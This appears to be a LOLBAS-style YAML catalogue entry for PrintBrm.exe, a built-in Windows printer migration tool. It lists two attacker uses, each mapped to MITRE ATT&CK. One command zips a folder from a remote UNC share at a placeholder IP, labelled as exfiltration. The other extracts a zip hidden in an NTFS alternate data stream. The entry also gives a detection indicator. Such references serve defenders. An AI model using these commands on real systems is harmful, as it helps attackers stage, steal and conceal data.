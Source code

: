 ```yaml
---
Name: PrintBrm.exe
Description: Printer Migration Command-Line Tool
Author: 'Elliot Killick'
Created: '2021-06-21'
Commands:
  - Command: PrintBrm -b -d \\1.2.3.4\share\example_folder -f C:\Users\user\Desktop\new.zip
    Description: Create a ZIP file from a folder in a remote drive
    Usecase: Exfiltrate the contents of a remote folder on a UNC share into a zip file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/techniques/T1105/
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder
    Description: Extract the contents of a ZIP file stored in an Alternate Data Stream (ADS) and store it in a folder
    Usecase: Decompress and extract a ZIP file stored on an alternate data stream to a new folder
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/techniques/T1096/
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\spool\tools\PrintBrm.exe
Detection:
  - IOC: PrintBrm.exe should not be run on a normal workstation
Resources:
  - Link: https://twitter.com/elliotkillick/status/1404117015447670800
Acknowledgement:
  - Person: Elliot Killick
    Handle: '@elliotkillick'
---
```

